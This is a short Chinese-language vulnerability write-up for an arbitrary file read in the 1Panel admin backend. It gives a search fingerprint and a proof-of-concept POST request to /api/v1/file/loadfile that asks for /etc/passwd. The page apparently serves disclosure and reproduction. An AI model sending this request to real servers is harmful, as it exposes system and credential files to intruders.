


# 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

<a-checkbox checked>1Panel</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"1Panel"</a-checkbox></br>

## 漏洞复现

登陆页面




验证POC

```php
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

